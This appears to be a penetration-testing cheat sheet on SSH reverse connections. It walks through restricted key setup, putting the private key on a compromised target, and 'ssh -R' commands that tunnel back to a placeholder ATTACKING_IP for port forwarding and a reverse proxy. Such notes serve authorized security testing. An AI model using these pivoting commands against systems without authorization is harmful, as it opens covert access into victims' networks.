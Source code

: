 # SSH Reverse Connections

## Access your machine from the target using your creds (NOT ADVISED) or a key-based system

#### 1: Generate a new set of SSH keys, then store them somewhere safe.

    ssh-keygen

#### 2: Copy the contents of the public key (.pub), then edit the ~/.ssh/authorized_keys file on your own attacking machine.

#### You may need to create the "~/.ssh" directory and "authorized_keys" file first.

    mkdir ~/.ssh
    touch ~/.ssh/authorized_keys

#### 3: On a new line, type the following, then paste in the public key:

    "echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty *

#### * This makes sure that the key can only be used for port forwarding, disallowing the ability to gain a shell on your attacking machine.

#### 4: Check if the SSH server is running:

    sudo systemctl status ssh

    sudo systemctl start ssh

#### 5: Transfer the private key to the target box.

#### 6: Connect back with a reverse port forward:

    ssh -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -fN

#### reverse proxy: 

    ssh -R PORT USER@ATTACKING_IP -i KEYFILE -fN
